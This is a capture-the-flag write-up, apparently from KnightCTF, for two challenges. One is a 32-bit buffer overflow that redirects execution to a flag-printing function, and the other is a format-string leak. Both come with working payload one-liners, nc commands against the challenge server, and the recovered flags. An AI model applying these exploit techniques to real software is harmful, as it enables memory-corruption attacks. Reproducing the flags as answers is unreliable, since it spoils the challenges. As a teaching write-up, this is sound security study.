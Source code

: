 ## get_sword

the binary is 32 bit binary

on inspecting with gdb we can find the following functions:

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/71fb910b-36ff-4188-815a-acd2a7bd0a28)

here, the important functions are getSword(never called) which prints the flag and intro, the function in which we perform buffer overflow

using ghidra to see what happens in getsword and intro:

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/9b7bdb50-929c-43bf-9612-a19bbc13f213)

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/8a1b7b7f-6e68-4005-9288-ab3a0a727633)

since getSword is never called, the main objective is to overwrite getSword address in eip so that it can be called after intro is done executing, this isn't pie as the filedoesn't show it the binary as shared object

`get_sword: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=4a9b260935bf815a04350e3bb9e0e4422f504b2a, for GNU/Linux 4.4.0, not stripped`

so a seg fault is caused after 28 bytes of 'a', then 4 byts of ebp register needs to be filled as well to write into eip

so final payload should look like this

`python2 -c 'print "a"*32 +"\x18\x92\x04\x08"' > payload `

sending that to binary does the trick:

`nc 173.255.201.51 31337 < payload `

flag: KCTF{so_you_g0t_the_sw0rd}


## the dragon secret's scroll

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/a2f5ceab-95fa-4513-aaaf-354bcf9accc4)

for this one, just nc was given.
I tried format specifier and it seemed to work

after sending : `python2 'print "%p"*50' > payload`
`nc 173.255.201.51 51337 < payload `

i get the result

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/778fbea4-3e4d-4e37-9933-edd078a88e45)

using hex to text conversation gives meaningful words for 0x4152447b4654434b 0x6c4f7243734e4f47 0x7d6c

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/58c1c027-aa02-4a3e-bb8d-a760d8814447)

after rearranging 

![image](https://github.com/oxo-crab/Knightctf/assets/111520157/21d59837-a05b-4634-8755-d35cd02b1f6a)

flag: KCTF{DRAGONsCrOll}










